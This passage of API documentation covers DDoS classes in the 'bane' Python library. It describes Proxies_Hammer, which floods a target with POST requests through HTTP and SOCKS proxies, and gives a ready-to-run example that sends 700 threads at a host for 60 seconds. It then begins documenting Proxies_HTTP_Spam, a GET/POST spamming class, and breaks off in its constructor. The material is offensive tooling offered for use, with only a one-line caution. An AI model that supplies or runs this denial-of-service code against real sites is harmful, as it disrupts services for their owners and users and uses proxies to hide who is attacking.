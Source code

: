     <li><code>ssl_on</code> (bool): Enable SSL/TLS for requests (default is False).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is True).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the attack by sending POST requests to the target URL through a list of proxy servers. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>Proxies_Hammer</code> class, create an instance of it by providing the required parameters, and it will start launching the attack in the background. Here's an example:</p>

<pre><code>
from bane.ddos import Proxies_Hammer

#Create an instance of Proxies_Hammer
proxy_hammer = Proxies_Hammer(
    "example.com",
    p=80,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    threads_daemon=True,
    scraping_timeout=15,
    max_content=15000,
    min_content=10000,
    threads=700,
    timeout=5,
    paths=["/"],
    http_proxies=["proxy1:8080", "proxy2:8888"],
    socks4_proxies=None,
    socks5_proxies=["socks5_proxy1:1080", "socks5_proxy2:1080"],
    duration=60,
    ssl_on=False,
    logs=True
)

#Proxy hammer attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set proxy_hammer.stop = True

#Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>
<h1>Proxies_HTTP_Spam Class</h1>

<h2>Class Overview</h2>
<p>The <code>Proxies_HTTP_Spam</code> class is part of the "bane" module and is used for spamming a target URL with HTTP GET and POST requests through a list of proxy servers.</p>

<h2>Class Constructor</h2>
<pre><code>class Proxies_HTTP_Spam(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>Proxies_HTTP_Spam</code> class with the following parameters:</p>

